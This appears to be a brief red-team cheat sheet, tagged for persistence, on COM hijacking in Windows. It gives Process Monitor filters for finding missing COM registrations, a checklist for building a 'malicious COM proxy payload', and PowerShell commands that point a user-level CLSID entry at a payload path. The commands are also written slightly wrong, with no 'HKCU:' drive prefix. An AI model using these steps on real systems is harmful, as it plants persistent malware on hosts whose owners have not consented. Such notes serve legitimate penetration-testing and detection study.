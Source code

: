 #persistence 

**ProcMon**: filter 'Operation is RegOpenKey' & 'Path contains InprocServer32 or LocalServer32' & 'Result is NAME NOT FOUND'.
### Existing Component (CLSID)
- [ ] Find 'not found' COM components in `HKCU\Software\Classes\CLSID`
- [ ] Create malicious COM proxy payload (.dll if in-process .exe if local server)
- [ ] Test locally before implementation of target
```powershell
New-Item -Path "HKCU\Software\Classes\CLSID" -Name "<CLSID>"
New-Item -Path "HKCU\Software\Classes\CLSID\<CLSID>" -Name "InprocServer32" -Value "<PATH_TO_PAYLOAD>"
New-Item -Path "HKCU\Software\Classes\CLSID\<CLSID>\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

